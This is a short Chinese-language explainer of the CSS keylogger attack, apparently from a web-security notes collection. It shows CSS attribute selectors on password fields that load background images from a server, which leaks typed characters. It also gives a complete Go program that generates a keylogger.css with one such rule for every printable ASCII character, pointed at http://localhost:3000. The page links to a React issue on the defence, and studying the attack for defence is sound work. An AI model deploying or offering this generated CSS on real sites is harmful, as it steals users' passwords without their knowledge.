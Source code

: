 # CSS 键盘记录器

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging) 利用 CSS 属性选择器，可以在加载背景图像的前提下从外部服务器请求资源。

这种攻击非常简单。
例如，下面的 css 将选择类型等于 password 的所有输入的值和以。然后它会尝试加载一个来自 http://localhost:3000/a 的图片。

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

使用简单的脚本可以创建一个 css 文件，该文件将为每个 ASCII 字符发送自定义请求

```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"os"
)

func main() {
	fmt.Println("Building keylogger.css")

	output, err := os.Create("./css-keylogger-extension/keylogger.css")
	if err != nil {
		log.Fatal("Cannot create output", err)
	}
	defer output.Close()
	for c := 32; c < 128; c++ {
		value := fmt.Sprintf("%c", c)
		urlValue := url.QueryEscape(value)

		if value == `"` {
			value = `\"`
		} else if value == `}` {
			value = `\\}`
		} else if value == `\` {
			value = `\\`
		}
		fmt.Fprintf(output, `input[type="password"][value$="%v"] { background-image: url("http://localhost:3000/%v"); }`, value, urlValue)
		fmt.Fprintf(output, "\n")
	}
	fmt.Println("Complete.")
}
```

阅读 [react issue](https://github.com/facebook/react/issues/11896) 来查看 React 的解决方案。